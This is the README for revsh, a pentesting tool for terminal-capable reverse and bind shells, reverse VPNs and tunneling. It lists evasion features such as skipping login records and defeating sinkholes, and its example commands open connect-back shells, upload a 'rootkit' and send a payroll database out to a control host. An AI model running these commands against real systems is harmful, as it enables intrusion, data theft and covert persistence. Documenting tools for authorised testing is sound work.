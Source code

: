 # revsh #

_revsh_ is a tool for establishing [reverse shells](http://en.wikipedia.org/wiki/Reverse_shell) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support, reverse [VPNs](https://en.wikipedia.org/wiki/Virtual_private_network) for [advanced pivoting](https://en.wikipedia.org/wiki/Exploit_(computer_security)#Pivoting), as well as arbitrary data tunneling.

## News ##

XXX 

## Overview ##

**What is a "reverse shell"?**

A reverse shell is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**What is a "reverse VPN"?**

_revsh_ is capable of attaching a virtual ethernet card (tun/tap) to both ends of its crypto tunnel. These cards can then be used to forward raw IP packets or ethernet frames. When combined with an Iptables NAT rule, or bridging a real ethernet card, this allows for the operator to receive a fully routable IP address on the target machines network. This, essentially, is a full VPN that has performed a connect-back call to the operator to circumvent in-bound packet filtering and grant the operator full network access.

**What is a "bind shell"?**

A [bind shell](http://en.wikipedia.org/wiki/Shellcode#Remote) is a shell that is served from a normal forward network connection. _revsh_ supports both reverse and bind shells. To invoke a bind shell you can either invoke the _-b_ flag on both ends of the connection, or invoke the binary as '_bindsh_'.


**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. vi)
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

In addition, _revsh_ also offers the following features:
 * [UTF-8](http://en.wikipedia.org/wiki/UTF-8) support.
 * Circumvents [utmp / wtmp](http://en.wikipedia.org/wiki/Utmp). (No login recorded.)
 * Processes [rc file](http://en.wikipedia.org/wiki/Run_commands) commands upon login for easy scripting.
 * [OpenSSL](https://www.openssl.org/) encryption with key based authentication baked into the binary.
 * Anonymous [Diffie-Hellman](http://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default. (Now with more [Perfect Forward Secrecy](http://en.wikipedia.org/wiki/Forward_secrecy)!)
 * [Cert pinning](http://en.wikipedia.org/wiki/Transport_Layer_Security#Certificate_pinning) for protection against [sinkholes](http://en.wikipedia.org/wiki/DNS_sinkhole) and [mitm](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.
 * Proxy support: point-to-point, SOCKS 4, SOCKS 4a, and SOCKS 5. Proxys are available in both directions for complete flexibility.
 * TUN / TAP support for forwarding raw IP packets / Ethernet frames.
 * Escape sequence commands to kill non-responsive nodes, or print connection statistics.


_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features across an encrypted tunnel. All together in a small (~75k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed on x86_64 Linux. Here is a brief list of Arch / OS combinations that it has been used on:
 * x86_64 Linux
 * i686 Linux
 * amd64 FreeBSD

(If you have successfully used revsh on another platform, drop me a line and I'll add it to the list.)

## Usage ##

	empty@monkey:~$ revsh -h
	
	Control:	revsh -c [CONTROL_OPTIONS] [MUTUAL_OPTIONS] [ADDRESS[:PORT]]
	Target:		revsh     [TARGET_OPTIONS] [MUTUAL_OPTIONS] [ADDRESS[:PORT]]
	
	CONTROL_OPTIONS:
	  -c           Run in "command and control" mode.             (Default is target mode.)
	  -a           Enable Anonymous Diffie-Hellman mode.          (Default is Ephemeral Diffie-Hellman.)
	  -d KEYS_DIR  Reference the keys in an alternate directory.  (Default is "~/.revsh/keys/".)
	  -f RC_FILE   Reference an alternate rc file.                (Default is "~/.revsh/rc".)
	  -s SHELL     Invoke SHELL as the remote shell.              (Default is "/bin/bash".)
	  -F LOG_FILE  Log general use and errors to LOG_FILE.        (No default set.)
	
	TARGET_OPTIONS:
	  -t SEC       Set the connection timeout to SEC seconds.     (Default is "3600".)
	  -r SEC1,SEC2 Set the retry time to be SEC1 seconds, or      (Default is "600,1200".)
	               to be random in the range from SEC1 to SEC2.
	
	MUTUAL_OPTIONS:
	  -k           Run in keep-alive mode. Node will neither
	               exit normally, nor seppuku from timeout.
	  -L [LHOST:]LPORT:RHOST:RPORT
	               Static socket forwarding with a local
	               listener at LHOST:LPORT forwarding to
	               RHOST:RPORT.
	  -R [RHOST:]RPORT:LHOST:LPORT
	               Static socket forwarding with a remote
	               listener at RHOST:RPORT forwarding to
	               LHOST:LPORT.
	  -D [LHOST:]LPORT
	               Dynamic socket forwarding with a local
	               listener at LHOST:LPORT.                       (Socks 4, 4a, and 5. TCP connect only.)
	  -B [RHOST:]RPORT
	               Dynamic socket forwarding with a remote
	               listener at LHOST:LPORT.                       (Socks 4, 4a, and 5. TCP connect only.)
	  -x           Disable automatic setup of proxies.            (Defaults: Proxy D2280 and tun/tap devices.)
	  -b           Start in bind shell mode.                      (Default is reverse shell mode.)
	               The -b flag must be invoked on both ends.
	  -n           Non-interactive netcat style data broker.      (Default is interactive w/remote tty.)
	               No tty. Useful for copying files.
	  -v           Verbose. -vv and -vvv increase verbosity.
	  -h           Print this help.
	  -e           Print out some usage examples.
	
	  ADDRESS      The address of the control listener.           (Default is "0.0.0.0".)
	  PORT         The port of the control listener.              (Default is "2200".)


## Installation ##

First, build OpenSSL from source. (See NOTE below.)

	git clone https://github.com/openssl/openssl.git
	cd openssl/
	./config no-shared  # If you are building full static binary, then add the -static flag here.
	make && make test
	cd ..

Now build revsh.

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	vi config.h        # Set up new defaults that fit your situation.
	vi Makefile        # By default, we build statically linked OpenSSL, but dynamic libc. You can change that here.
	make               # This *can* take a very long time, though it usually doesn't.
	make install
	vi ~/.revsh/rc     # Add your favorite startup commands to really customize the feel of your remote shell.
	revsh -h

NOTE: With the release of OpenSSL 1.1.0, OpenSSL needs to be built from source for use in a statically linked binary. Building a statically linked binary against the OpenSSL libraries that ship with most Linux distros (including Kali) will not work. (If you get it to build at all, it will SEGFAULT.) At some point in the future, when the recent fixes to OpenSSL 1.1 filter down to the distros, this step will replaced by the appropriate 'apt-get' command.

## Examples ##

Control host example IP: 192.168.0.42
<br>
Target host example IP:  192.168.0.66

	Interactive example on default port '2200':
		control:	revsh -c
		target:		revsh 192.168.0.42
	
	Interactive example on non-standard port '443':
		control:	revsh -c 192.168.0.42:443
		target:		revsh 192.168.0.42:443
	
	Bindshell example:
		target:		revsh -b
		control:	revsh -c -b 192.168.0.66
	
	Non-interactive file upload example:
		control:	cat ~/bin/rootkit | revsh -c -n
		target:		revsh 192.168.0.42 > ./totally_not_a_rootkit
	
	Non-interactive file download example:
		control:	revsh -c -n >payroll_db.tar
		target:		cat payroll_db.tar | revsh 192.168.0.42
	
	Non-interactive file download example across existing tunnel:
		control:	revsh -c -n 127.0.0.1:2291 >payroll_db.tar
		target:		cat payroll_db.tar | revsh 127.0.0.1:2290

